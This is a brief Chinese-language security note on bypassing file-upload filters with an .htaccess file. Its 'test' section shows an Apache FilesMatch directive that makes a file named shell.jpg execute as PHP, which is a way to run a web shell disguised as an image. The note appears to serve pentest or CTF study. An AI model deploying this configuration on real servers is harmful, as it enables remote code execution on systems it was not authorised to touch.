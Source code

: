 # `.htaccess`上传绕过

## 测试

```php
<FilesMatch "shell.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```